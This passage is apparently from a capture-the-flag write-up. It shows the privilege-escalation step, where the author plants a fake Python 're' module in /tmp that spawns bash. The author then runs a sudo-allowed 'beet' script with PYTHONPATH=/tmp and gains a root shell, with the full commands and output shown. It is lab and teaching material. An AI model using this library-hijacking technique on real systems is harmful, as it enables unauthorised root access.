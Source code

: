 ## 5. Privilege Escalation

The beet file was actually a python script:

```bash
sofiane@fianso:/tmp$ file /usr/bin/beet
/usr/bin/beet: symbolic link to ../share/beets/beet
sofiane@fianso:/tmp$ readlink -f /usr/bin/beet
/usr/share/beets/beet
sofiane@fianso:/tmp$ file /usr/share/beets/beet
/usr/share/beets/beet: Python script, ASCII text executable
sofiane@fianso:/tmp$
```

```bash
#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'beets==1.4.9','console_scripts','beet'
__requires__ = 'beets==1.4.9'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('beets==1.4.9', 'console_scripts', 'beet')()
    )
```

>[!Note]
>It is known that when you run a Python program that imports libraries, the first thing it does is to load those libraries. Taking advantage of this behavior, I created a new library called `re` designed to run a shell (`/bin/bash`) and gain interactive access. Then, I used the `beet` command to make sure that this custom library was the one loaded instead of the original `re` library by retyping `PYTHONPATH`.

```python
import os
os.system("/bin/bash -i")
```

```bash
sofiane@fianso:~$ echo -e "import os\nos.system(\"/bin/bash -i\")" > /tmp/re.py
```

```bash
sofiane@fianso:~$ sudo PYTHONPATH=/tmp /usr/bin/beet
```

I got a root shell:

```bash
root@fianso:~# ls
root.txt
```

**SECOND FLAG**
